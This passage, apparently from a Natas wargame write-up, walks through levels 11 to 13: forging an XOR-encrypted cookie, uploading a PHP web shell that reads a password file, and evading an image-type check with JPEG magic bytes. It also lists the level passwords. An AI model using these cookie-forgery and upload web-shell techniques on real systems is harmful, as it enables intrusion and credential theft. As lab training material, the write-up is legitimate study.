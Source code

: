 ```php
// Outputs: qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq --- ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=
```
- Based on the output `qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq`, it can be assumed that the secret key is `qw8J`.
- Now we generate an xor-encrypted cookie value using this secret key, in which showpassword's value is "yes", using the following PHP code:
```php
<?php
function xor_encrypt($in, $ke) {
    $key = $ke;
    $text = $in;
    $outText = '';
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }
    return $outText;
}

$actualkey = "qw8J";
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#00ff00");
print base64_encode(xor_encrypt(json_encode($defaultdata), $actualkey));

// Outputs - ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVAh6FxEIelMK
?>
```
- We replace the cookie value in dev-tools and refresh.

### Level 12 `EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3`
- We see that we can upload a file then open it.
- Also we can change the extension of uploaded the file by changing the hidden input tag (filename).
- So we'll create a php file (that executes a system command and echos the result):
```
echo "<?php echo system(\"cat /etc/natas_webpass/nats13\"); ?>" > script.php
```
- We'll change the upload file type to php by changing the "value" of the input tag -> "filename".
- We'll upload the script.php file and open the link.
- We get the password.

### Level 13 `jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`
- We see that there's a php function `exif_imagetype` being used to verify the file we upload.
- We google to see what it does and find out that it "reads the first bytes of an image and checks its signature".
- We find the signature of jpg file from [wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures): `FF D8 FF E0 00 10 4A 46 49 46 00 01`.
- We create our own file:
```
echo -e '\xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01 --- <?php echo system("cat /etc/natas_webpass/natas14"); ?>' > test
```
- We'll change the upload file type to php by changing the "value" of the input tag -> "filename".
- We upload the test file and open the php page link to get the password.
